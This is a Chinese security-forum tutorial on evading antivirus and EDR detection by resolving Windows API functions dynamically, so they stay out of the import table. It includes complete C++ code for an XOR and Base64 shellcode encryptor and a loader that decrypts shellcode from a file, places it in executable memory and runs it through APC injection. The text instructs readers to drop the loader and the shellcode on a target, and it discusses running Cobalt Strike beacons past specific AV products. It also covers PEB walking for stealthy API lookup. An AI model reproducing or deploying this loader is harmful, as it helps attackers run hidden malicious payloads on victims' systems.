# 动态获取API函数（又称隐藏IAT）实现免杀-先知社区

> **来源**: https://xz.aliyun.com/news/17170  
> **文章ID**: 17170

---

# 一、导入表

导入表（Import Directory）存储了有关PE文件在运行的生命周期中所需要的API以及相关的dll模块。



有些AV/EDR会根据导入表中记录的API来判定一个程序是否为高危文件，比如说一个文件在1MB以内，出现了 `VirtualAlloc`、`VirtualProtect`、`CreateThread` 等敏感API时，很大概率会判定为高危文件。

很多工具可以查看文件的导入表，常见的有studyPE+、IDA。

## 1.1 使用studyPE+查看文件的导入信息

工具下载地址：[[原创]【2020年5月1日更新】StudyPE (x86 / x64) 1.11 版-安全工具-看雪-安全社区|安全招聘|kanxue.com](https://bbs.kanxue.com/thread-246459-1.htm)



## 1.2 在IDA的Import界面查看文件文件的导入信息。



# 二、动态获取API函数的三种方式

在本节中，我将详细介绍动态获取API函数的三种方式，它们分别是

1. `GetModuleHandle+GetProcAddress` 的组合获取所需的API函数指针
2. 使用 `PEB` 获取 `GetModuleHandle` 和 `GetProcAddress`  的函数指针，再利用 `GetModuleHandle+GetProcAddress` 获取所需要的API函数指针
3. 使用 `PEB` 获取所需要的API函数指针

网上也有人用 `LoadLibrary` 作为 `GetModuleHandle` 的平替，其效果相差无几，只是它们的机制有些区别，比如说在 `自举的代码幽灵——反射DLL注入（Reflective DLL Injection）` 中我们就是利用 `LoadLibrary+GetProcAddress` 给我的恶意DLL加载相应的DLL获取需要的API函数指针，值得关注的一点是恶意DLL是由其自身的导出函数 `ReflectiveLoader` 完成自身的加载，这意味着相应的DLL并没有加载到自身的地址空间中，所以需要利用 `LoadLibrary` 而不应该使用 `GetModuleHandle`。

所以还是需要看场合使用`GetModuleHandle`还是`LoadLibrary`

|  |  |  |
| --- | --- | --- |
| **特性** | **GetModuleHandle** | **LoadLibrary** |
| **主要作用** | 获取已加载模块的句柄（不增加引用计数） | 加载模块到进程地址空间（增加引用计数） |
| **适用场景** | 模块已加载，需重复获取句柄（如动态调用函数） | 模块未加载，需显式加载并获取句柄 |
| **引用计数管理** | **不增加**模块引用计数 | **增加**模块引用计数（需配合`FreeLibrary`） |
| **返回值有效性** | 若模块未加载返回 `NULL` | 若模块已加载返回现有句柄（引用计数+1） |

## 2.1 函数指针声明

动态获取API函数需要在C/C++代码中声明相应API的函数声明，所以我们先看看API函数指针的声明方式

其声明的格式如下

```
typedef 返回类型(WINAPI* 新类型的名称)(类型 参数1, 类型 参数2, ……)

typedef 返回类型(NTAPI* 新类型的名称)(类型 参数1, 类型 参数2, ……)
```

例如

```
typedef FARPROC (WINAPI* GETPROCADDR)(HMODULE hModule, LPCSTR lpProcName);
```

* `typedef`：定义一个新类型。
* `FARPROC`：返回类型，表示一个通用的函数指针（常用于动态获取的API函数）。
* `WINAPI`：调用约定，即 `__stdcall`（Windows API标准调用约定）。
* `GETPROCADDR`：新类型的名称（自定义的函数指针类型名）。
* `(HMODULE hModule, LPCSTR lpProcName)`：参数列表，与 `GetProcAddress` 的参数一致。

> **补充**：调用约定定义了函数调用时 **参数传递顺序**、**堆栈清理责任**（调用者或被调用者）以及 **函数名修饰规则**。`WINAPI` 是 Windows 开发中的一个宏定义，**用于指定函数使用** `__stdcall` **调用约定**

|  |  |  |  |  |
| --- | --- | --- | --- | --- |
| 调用约定 | 参数顺序 | 堆栈清理者 | 典型应用场景 | 变参支持 |
| `__stdcall` | 右→左 | 被调用者 | Windows API、COM接口 | 否 |
| `__cdecl` | 右→左 | 调用者 | C/C++默认、可变参数函数 | 是 |
| `__fastcall` | 右→左 | 被调用者 | 部分寄存器传参优化场景 | 否 |

如何知道API的返回类型和参数列表呢？这就需要到微软的官方文档查看相应API的函数原型，然后把返回类型和参数列表复制过来即可。

## 2.2 GetModuleHandle+GetProcAddress

`GetModuleHandle`：检索指定模块的模块句柄。 该模块必须由调用进程加载。官方文档：[GetModuleHandleA 函数 （libloaderapi.h） - Win32 apps | Microsoft Learn](https://learn.microsoft.com/zh-cn/windows/win32/api/libloaderapi/nf-libloaderapi-getmodulehandlea)

`GetProcAddress`：从指定的动态链接库 (DLL) 检索导出函数 (也称为过程) 或变量的地址。官方文档：[GetProcAddress 函数 (libloaderapi.h) - Win32 apps | Microsoft Learn](https://learn.microsoft.com/zh-cn/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress)

大致第了解这两个核心API后我们就需要着手代码实现了

### （一）示例MessageBoxW

```
#include <Windows.h>
#include <stdio.h>

typedef int (WINAPI* MESSAGEBOXW)(HWND hWnd, LPCTSTR lpText, LPCTSTR lpCaption, UINT uType);

int main()
{

    MESSAGEBOXW pMessageBoxW = (MESSAGEBOXW)GetProcAddress(LoadLibraryA("User32.dll"), "MessageBoxW");
    pMessageBoxW(NULL, L"Hello Oneday!!!!!!!!!!!!!", NULL, 0);
    return 1;
    /*
    MessageBoxW(NULL, L"Hello Oneday!!!!!!!!!!!!!", NULL, 0);
    return 1;
    */
}

```

首先，`MessageBoxW` 这个弹窗API是由user32.dll导出的，我们直接使用API，编译后查看导入表信息，发现确实存在 `MessageBoxW` 这个API的记录



使用动态获取API后，程序能正常弹窗



查看其导入表，发现没有 `MessageBoxW` 的相关信息。



### （二）实战

**使用方法**：

1. 使用加密版将shellcode加密，并输出
2. 将shellcode保存到shellcode.txt
3. 用VS的MSVC或Cling-cl编译解密版的代码，注意编译和shellcode位数保存一致，如shellcode是x64，编译的时候要用x64位。
4. 将编译好的exe和shellcode.txt放到目标上，保证这两个文件在同一个目录

加密版

```
#include <iostream>
#include <string>
#include <iomanip>
#include <vector>

// Base64 字符表
static const std::string base64_chars =
"ABCDEFGHIJKLMNOPQRSTUVWXYZ"
"abcdefghijklmnopqrstuvwxyz"
"0123456789+/";

// 编码函数
std::string base64_encode(const std::string& input) {
    std::string encoded;
    int val = 0, valb = -6;

    for (unsigned char c : input) {
        val = (val << 8) + c;
        valb += 8;
        while (valb >= 0) {
            encoded.push_back(base64_chars[(val >> valb) & 0x3F]);
            valb -= 6;
        }
    }

    if (valb > -6) {
        encoded.push_back(base64_chars[((val << 8) >> valb) & 0x3F]);
    }

    while (encoded.size() % 4) {
        encoded.push_back('=');
    }

    return encoded;
}

std::vector<unsigned char> xorEncryptDecrypt(const unsigned char* input, size_t length, const std::string& key) {
    std::vector<unsigned char> output(length); // 创建输出向量，大小与输入相同
    size_t keyLength = key.size();

    for (size_t i = 0; i < length; ++i) {
        output[i] = input[i] ^ key[i % keyLength]; // 逐位异或，循环使用密钥
    }
    return output; // 返回输出向量
}

// 输出十六进制格式的函数
void printHex(const unsigned char* data, size_t length) {
    for (size_t i = 0; i < length; ++i) {
        std::cout << "0x" << std::hex << std::setw(2) << std::setfill('0') << (int)data[i];
        if (i < length - 1) {
            std::cout << ", "; // 在每个字节后添加逗号和空格
        }
    }
    std::cout << std::dec << std::endl; // 恢复为十进制
}

int main() {
    // 明文
    unsigned char plaintext[] = /* your shellcode */;

    // 密钥
    std::string key = "mysecretkey";

    // 加密
    size_t len  = sizeof(plaintext) / sizeof(plaintext[0]);
    std::vector<unsigned char> ciphertext(len);
    ciphertext = xorEncryptDecrypt(plaintext, len, key);

    std::string str;
    str.assign(reinterpret_cast<const char*>(ciphertext.data()), ciphertext.size());

    // Base64 编码
    std::string encoded = base64_encode(str);
    std::cout << "加密后的密文: ";
    std::cout << "Encoded: " << encoded << std::endl;
    return 0;
}
```

解密版

```
#include <iostream>
#include <string>
#include <iomanip>
#include <vector>
#include <windows.h>
#include <fstream>
#include <sstream>

typedef LPVOID(WINAPI* VIRTUALALLOC)(LPVOID lpAddress, SIZE_T dwSize, DWORD  flAllocationType, DWORD  flProtect);
typedef VOID(NTAPI* NTTESTALERT)(VOID);
typedef DWORD(WINAPI* QUENEUSERAPC)(PAPCFUNC pfnAPC, HANDLE hThread, ULONG_PTR dwData);

// Base64 字符表
static const std::string base64_chars =
"ABCDEFGHIJKLMNOPQRSTUVWXYZ"
"abcdefghijklmnopqrstuvwxyz"
"0123456789+/";

// 解码函数
std::vector<unsigned char> base64_decode(unsigned char* input, size_t length) {
    std::vector<int> T(256, -1);
    for (int i = 0; i < 64; i++) {
        T[static_cast<int>(base64_chars[i])] = i;
    }

    std::vector<unsigned char> decoded;
    int val = 0, valb = -8;

    for (size_t i = 0; i < length; ++i) {
        if (T[input[i]] == -1) break; // 处理无效字符
        val = (val << 6) + T[input[i]];
        valb += 6;
        if (valb >= 0) {
            decoded.push_back(static_cast<unsigned char>((val >> valb) & 0xFF));
            valb -= 8;
        }
    }

    return decoded;
}

std::vector<unsigned char> xorEncryptDecrypt(const unsigned char* input, size_t length, const std::string& key) {
    std::vector<unsigned char> output(length); // 创建输出向量，大小与输入相同
    size_t keyLength = key.size();

    for (size_t i = 0; i < length; ++i) {
        output[i] = input[i] ^ key[i % keyLength]; // 逐位异或，循环使用密钥
    }
    return output; // 返回输出向量
}

int main() {

    // 读取shellcode
    std::string filePath = "shellcode.txt";
    std::ifstream file(filePath);

    if (!file.is_open()) {
        std::cerr << "无法打开文件: " << filePath << std::endl;
        return 1;
    }

    std::string base64string;
    std::stringstream buffer;
    buffer << file.rdbuf();
    base64string = buffer.str();
    file.close();

    // Base64 解码
    size_t len = base64string.length();
    std::vector<unsigned char> decoded = base64_decode((unsigned char*)base64string.data(), len);

    std::string key = "mysecretkey";
    // 解密
    std::vector<unsigned char> decryptedtext(decoded.size());
    decryptedtext = xorEncryptDecrypt(decoded.data(), decoded.size(), key);

    // 动态获取API函数指针
    VIRTUALALLOC pVirtualAlloc = (VIRTUALALLOC)GetProcAddress(GetModuleHandleA("Kernel32.dll"), "VirtualAlloc");
    NTTESTALERT pNtTestAlert = (NTTESTALERT)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtTestAlert");
    QUENEUSERAPC pQueueUserAPC = (QUENEUSERAPC)GetProcAddress(GetModuleHandleA("Kernel32.dll"), "QueueUserAPC");
    // 在本地进程申请一块RWX内存区域，并将shellcode复制到该区域
    LPVOID lpBaseAddress = pVirtualAlloc(NULL, decryptedtext.size(), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(lpBaseAddress, decryptedtext.data(), decryptedtext.size());

    // 向当前线程的异步过程调用(APC)队列添加一个执行shellcode的任务
    pQueueUserAPC((PAPCFUNC)lpBaseAddress, GetCurrentThread(), NULL);

    // 清空并处理APC队列
    pNtTestAlert();

    return 0;
}

```

从本节到后续的所有章节中，如果需要进行免杀测试，则采用的测试标准：

1. shellcode加密采用 `混淆加密` 中的自定义 `XOR` 加密和`Base64`编码
2. shellcode`分离加载`采用 中的本地读取文本文件中的shellcode
3. 使用 `特征修改` 中的修改VS的默认编译选项， 不使用  `特征修改` 中的修改时间戳、加签名等手段，不使用  `转换` 、 `保护`  的相关技术。
4. 按主题采用相应的技术（如本节 `动态获取API函数`）进行免杀测试，如果一种方法不行会采用多种防御规避技术的组合。
5. 加载器的实现我使用的是`APC & NtTestAlert Injection`



值得关注的是，在未二开cs的beacon植入物时，火绒6是可以检测到内存中的beacon，这是因为cs的beacon的内存特征实在太过明显，火绒肯定是增加了某种匹配规则了。还有一点是火绒只记录安全日志不会主动查杀，可能是由于查杀的话会导致被注入进程的崩溃或异常。

## 2.3 PEB + GetModuleHandle+GetProcAddress

老读者应该发现了—— `PEB` 这玩意儿已经高频刷屏五次！今天咱们不再赘述这位老熟人，直接放大招：看它如何化身内存隐身衣——绕过AV/EDR的关键跳板就在这里！记住，玩转 `PEB` 结构，才是免杀中的顶级操作。

如果认真读过 `自举的代码幽灵——反射DLL注入（Reflective DLL Injection）` 这一章节的朋友就会明白，我们可以遍历peb结构体中的ldr成员中的InMemoryOrderModuleList链表获取dll名称，遍历函数所在的dll导出表获得必要的函数的名称，如果匹配成功就返回目标函数的地址。

这里使用PEB是自实现 `GetModuleHandle+GetProcAddress` 将其整合成一个函数，我命名为：`GetApiAddressByName`。

### 2.3.1 获取PEB结构体的地址

不同位数系统的下的PEB结构体在TEB或者寄存器中的偏移量是不同的，且同一位数系统下都存在着两种获取PEB的方法，下面我将详细介绍。

首先我们要明白，GS/FS寄存器存储着当前TEB指针，而TEB结构体偏移0x30/0x18的位置上也存储着当前TEB指针，所以就出现了两种方法获取PEB指针的方法，它们之间的适用场景不同。

方法一：避免直接依赖寄存器，兼容性更强。可以规避对 `0x60` 偏移的系统调用监控（如CrowdStrike的PEB扫描规则）  
方法二：代码简洁、效率高，常用于shellcode开发。

#### （1）在64位系统下获得PEB

**方法一：从TEB出发**

TEB的指针存放在 GS 寄存器偏移0x30的位置，而Visual Studio提供 `__readgsqword(0x30)` 这个宏定义，可以方便我们读取TEB指针。

在线程环境块 (TEB) 结构中是存放着指向 PEB 结构的指针，PEB指针在TEB结构体中偏移0x60的位置上。



```
PTEB pTEB = (PTEB)__readgsqword(0x30);
PPEB pPEB = (PPEB)pTEB->ProcessEnvironmentBlock;
```

**方法二：直接从GS寄存器出发**

我们可以利用 `__readgsqword(0x60)` 读取到PEB指针，从而跳过TEB 结构直接检索 PEB指针。

```
PPEB pPEB = (PPEB)__readgsqword(0x60);
```

#### （2）在32位系统下获得PEB

**方法一：从TEB出发**

在32位系统上，FS寄存器承担了GS寄存器的角色，TEB的指针存放在FS寄存器偏移0x18的位置上可以利用 `__readfsdword(0x18)` 这个宏定义读取TEB的指针。

在TEB结构体0x30的位置上存放着PEB的指针



```
PTEB pTEB = (PTEB)__readfsdword(0x18);
PPEB pPEB = (PPEB)pTEB->ProcessEnvironmentBlock;
```

**方法二：直接从GS寄存器出发**

同理，我们也可以利用 `__readfsdword(0x30)` 直接读取PEB指针。

```
PPEB pPEB = (PPEB)__readfsdword(0x30);
```

### 2.3.2 枚举DLL所需要的结构体

##### （1）`_PEB_LDR_DATA`

在PEB结构体0x18的位置上可以看的 `_PEB_LDR_DATA` 类型的指针



而 `_PEB_LDR_DATA` 的数据结构定义如下

```
//0x58 bytes (sizeof)
struct _PEB_LDR_DATA
{
    ULONG Length;                                                           //0x0
    UCHAR Initialized;                                                      //0x4
    VOID* SsHandle;                                                         //0x8
    struct _LIST_ENTRY InLoadOrderModuleList;                               //0x10
    struct _LIST_ENTRY InMemoryOrderModuleList;                             //0x20
    struct _LIST_ENTRY InInitializationOrderModuleList;                     //0x30
    VOID* EntryInProgress;                                                  //0x40
    UCHAR ShutdownInProgress;                                               //0x48
    VOID* ShutdownThreadId;                                                 //0x50
}; 
```

##### （2）`_LIST_ENTRY`

可以从 `_PEB_LDR_DATA` 结构体中看到三个 `_LIST_ENTRY` 结构体成员，其中最重要的是InMemoryOrderModuleList，它位于 `_PEB_LDR_DATA` 结构体0x20的位置，不用太过关注它们的偏移量，因为32和64系统中它们的偏移量是不同的且我们是可以访问到这些成员的。我们看一下 `_LIST_ENTRY` 结构体的定义

```
struct _LIST_ENTRY
{
    struct _LIST_ENTRY* Flink;                                              //0x0
    struct _LIST_ENTRY* Blink;                                              //0x8
}; 
```

`_LIST_ENTRY` 是一个双向链表，它分别使用 Flink 和 Blink 元素作为头指针和尾指针，这意味着 Flink 指向列表中的下一个节点，而元素 Blink 指向列表中的上一个节点，它们都是指向 LDR\_DATA\_TABLE\_ENTRY 结构的指针。在本节中，只使用 Flink 就可以完成所有 `LDR_DATA_TABLE_ENTRY` 结构体的遍历。

##### （3）`LDR_DATA_TABLE_ENTRY`

`_LDR_DATA_TABLE_ENTRY` 是Windows内核中用于描述已加载模块（如DLL或驱动）信息的关键数据结构。其数据结构如下

```
typedef struct _LDR_DATA_TABLE_ENTRY {
    PVOID Reserved1[2];
    LIST_ENTRY InMemoryOrderLinks;
    PVOID Reserved2[2];
    PVOID DllBase;
    PVOID Reserved3[2];
    UNICODE_STRING FullDllName;
    BYTE Reserved4[8];
    PVOID Reserved5[3];
#pragma warning(push)
#pragma warning(disable: 4201) // we'll always use the Microsoft compiler
    union {
        ULONG CheckSum;
        PVOID Reserved6;
    } DUMMYUNIONNAME;
#pragma warning(pop)
    ULONG TimeDateStamp;
} LDR_DATA_TABLE_ENTRY, *PLDR_DATA_TABLE_ENTRY;
```

一个 `_LDR_DATA_TABLE_ENTRY` 描述一个已加载DLL模块的相关信息

其中值得我们关注的成员有

1. InMemoryOrderLinks：按内存映像顺序组织的链表，其主要作用就是利用 `CONTAINING_RECORD` 宏来计算出 `_LDR_DATA_TABLE_ENTRY` 结构体的基址，进而访问 `_LDR_DATA_TABLE_ENTRY` 里的成员
2. DllBase：存放着DLL的基地址，有了基址，我们就可以解析DOS头、NT从而获得导出表的地址。
3. FullDllName：存放着DLL的完整路径，我们可以利用自实现的 `ExtractDllName` 函数获取DLL的名称，然后与目标DLL的名称进行比对。

### 2.3.3 遍历导出表的相关数据结构

1. AddressOfNames：存储所有**按名称导出函数**的字符串地址（RVA）
2. AddressOfFunctions：存储所有导出函数的实际入口地址（RVA），每个元素对应一个函数的起始位置。
3. AddressOfNameOrdinals：建立**函数名称索引**（来自`AddressOfNames`）与**函数地址索引**（来自`AddressOfFunctions`）的映射关系

在实践的编程中，我们都是按名称获取API的地址，所以这三个数组间的协调工作如下

```
AddressOfNames[i]与目标函数名匹配 → 找到序号数组索引i → 地址表获取 AddressOfFunctions[AddressOfNameOrdinals[i]]

